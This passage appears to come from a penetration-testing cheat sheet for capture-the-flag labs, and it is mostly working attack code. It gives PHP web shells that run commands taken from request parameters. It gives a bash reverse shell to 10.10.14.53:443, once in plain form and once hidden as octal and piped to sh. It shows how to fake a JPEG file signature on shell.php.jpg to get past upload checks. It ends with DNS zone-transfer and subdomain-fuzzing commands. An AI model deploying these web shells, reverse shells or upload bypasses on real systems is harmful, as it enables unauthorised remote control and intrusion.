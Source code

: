 ```php
<?php
	echo "\nURL Shell... url?cmd=<command>\n\n";
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
#################################################################################
<?php echo system($_GET['cmd']); exit; ?>
#################################################################################
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.53/443 0>&1'");?>
```

## 18. Change MIME Type of file

```bash
# https://en.wikipedia.org/wiki/List_of_file_signatures

xxd -r -p -o 0 <(echo FF D8 FF DB) shell.php.jpg



```

## 19. Reverse Shell tricks octal with printf

```bash
echo "bash -c 'exec bash -i &>/dev/tcp/10.10.14.53/443 <&1'" | od -b -An | sed 's/ /\\/g' | tr -d "\n" | xclip -sel clip
printf "\142\141\163\150\040\055\143\040\047\145\170\145\143\040\142\141\163\150\040\055\151\040\046\076\057\144\145\166\057\164\143\160\057\061\060\056\061\060\056\061\064\056\067\057\064\064\063\040\074\046\061\047\012" | sh

```

# 5. Get SubDomain - DNS

```bash
kali@kali: > nslookup
				> server 10.10.10.13
				> 10.10.10.13

kali@kali: >  dig @10.10.10.123 friendzone.red axfr
kali@kali: >  dnsenum --server 10.10.10.224 --threads 50 -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
kali@kali: >  host -t axfr friendzone.red 10.10.10.123

wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H "Host: FUZZ.forwardslash.htb" http://forwardslash.htb/
```

# 6. File Transfere Techniques
